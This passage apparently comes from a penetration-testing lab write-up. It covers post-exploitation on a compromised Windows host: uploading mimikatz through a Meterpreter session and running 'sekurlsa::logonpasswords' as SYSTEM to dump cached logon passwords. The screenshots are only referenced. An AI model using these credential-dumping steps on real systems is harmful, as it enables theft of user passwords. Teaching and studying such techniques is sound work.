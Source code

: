 
### &#9702; Post Exploitation
===================

We can now try to dump cache password. using a tool named “**Mimikatz”**
<div style="width:100%; background-color:#252b34;text-align: left;;border: 1px solid black;"><img width="50%"  src="media/image124.png"></div>


The 64 bit versione is the one we need
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image125.png"></div>


We use the meterpeter session to upload the “mimikatz.exe” file:
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image126.png"></div>


As a “**nt authority\\system**” we execute mimikatz and use the
**sekurlsa** command to extract logon passwords

``` shell 
./mimikatz.exe
 ```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image127.png"></div>


``` shell 
sekurlsa::logonpasswords
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image128.png"></div>

